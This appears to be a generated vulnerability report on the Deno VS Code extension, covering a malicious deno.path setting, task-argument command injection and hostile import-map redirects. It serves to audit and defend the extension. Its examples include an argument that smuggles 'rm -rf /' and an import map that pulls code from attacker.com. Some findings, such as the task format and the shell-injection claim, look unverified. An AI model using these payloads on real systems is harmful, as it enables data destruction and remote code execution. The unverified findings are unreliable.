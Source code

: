 # Updated Vulnerability List

## Vulnerability 1: Arbitrary Code Execution via Malicious deno.path Configuration
### Description
The extension uses the user-configurable `deno.path` setting to locate the Deno executable. If this path is set to a malicious executable (e.g., through a symlink attack or direct configuration manipulation), the extension will execute it when starting the language server. The `getDenoCommandPath` function validates file existence but does not verify that the file is an actual Deno binary or trusted executable. An attacker can exploit this by pointing `deno.path` to a malicious script, leading to arbitrary code execution.

#### Steps to Trigger
1. Configure `deno.path` to point to a malicious executable (e.g., `C:\malicious\fake_deno.exe`).
2. Restart the extension or run a command requiring Deno (e.g., `Deno: Enable`).
3. The malicious executable executes with the permissions of the user's VS Code process.

### Impact
An attacker can execute arbitrary code with the privileges of the VS Code process, potentially leading to system compromise.

### Vulnerability Rank
Critical

#### Currently Implemented Mitigations
- The `getDenoCommandPath` function checks if the specified path exists.

#### Missing Mitigations
- No validation that the file is a trusted Deno executable.
- No checks for symbolic links or path traversal in `deno.path`.

#### Preconditions
- The attacker has write access to VS Code settings to configure `deno.path`.

#### Source Code Analysis
- **client/src/commands.ts**: `startLanguageServer` uses `getDenoCommandPath` to determine the Deno executable.
- **client/src/util.ts**: `getDenoCommandPath` resolves `deno.path` but only checks existence, not integrity.

#### Security Test Case
1. Create a malicious script (e.g., `fake_deno.sh` on Linux/macOS or `fake_deno.exe` on Windows) that writes to a file in `/tmp/pwned` (or `C:\pwned`).
2. Set `deno.path` to the malicious script’s path via VS Code settings.
3. Restart VS Code or run a Deno command (e.g., enable Deno).
4. Check if the malicious script executed and created `/tmp/pwned` (or `C:\pwned`).

---

## Vulnerability 2: Command Injection via Unsanitized Task Definitions in deno.json
### Description
The extension executes tasks defined in `deno.json` without validating the command-line arguments. Attackers can craft malicious `args` fields in task definitions to execute arbitrary commands via shell metacharacters (e.g., `; rm -rf /`). The `buildDenoTask` function directly passes user-provided arguments to the Deno command without sanitization.

#### Steps to Trigger
1. Create a `deno.json` with a task containing malicious arguments:
```json
{
  "tasks": [
    {
      "name": "malicious_task",
      "command": "run",
      "args": ["--allow-all", "malicious.ts; rm -rf /"]
    }
  ]
}
```
2. Run the task via the VS Code tasks panel.

### Impact
Arbitrary commands can execute with permissions tied to the user’s workspace, potentially leading to data destruction or code execution.

### Vulnerability Rank
Critical

#### Currently Implemented Mitigations
- No input validation or sanitization for task arguments.

#### Missing Mitigations
- No checks for shell metacharacters in task arguments.

#### Preconditions
- The workspace contains a malicious `deno.json` file.

#### Source Code Analysis
- **client/src/tasks.ts**: `buildDenoTask` directly uses `definition.args` in the command line.
- **client/src/tasks_sidebar.ts**: The language server’s task responses are used without validation.

#### Security Test Case
1. Create a `deno.json` with a task like:
   ```json
   {
     "tasks": [{
       "name": "test",
       "command": "run",
       "args": ["--allow-all", "test.ts; echo 'VULN' > /tmp/vuln"]
     }]
   }
   ```
2. Run the task and check if `/tmp/vuln` (or equivalent) is created.

---

## Vulnerability 3: Malicious Module Imports via Unvalidated Import Maps
### Description
The extension processes import maps from `deno.json` without validating URLs, allowing attackers to redirect module imports to malicious remote URLs. A crafted `importMap` field in the configuration can trick the language server into fetching and executing hostile modules (e.g., `https://attacker.com/malicious.js`).

#### Steps to Trigger
1. Create a malicious `import_map.json` with a redirect:
```json
{
  "imports": {
    "https://deno.land/x/": "https://attacker.com/malicious/"
  }
}
```
2. Configure `deno.json` to reference it:
```json
{ "importMap": "./import_map.json" }
```
3. The extension loads modules from `attacker.com`, which could execute malicious code.

### Impact
Execution of remote malicious modules with Deno permissions, potentially leading to code execution or data exfiltration.

### Vulnerability Rank
High

#### Currently Implemented Mitigations
- None; the import map is directly passed to the language server.

#### Missing Mitigations
- No validation of URLs in import maps.

#### Preconditions
- The workspace includes a malicious `deno.json` or `import_map.json`.

#### Source Code Analysis
- **client/src/extension.ts**: The Deno configuration’s `importMap` is passed to the server without validation.
- **typescript-deno-plugin/src/index.ts**: The plugin uses `importMap` settings without checks.

#### Security Test Case
1. Create an import map redirecting a module to a malicious server.
2. Monitor network requests to see if Deno fetches from the attacker’s URL.
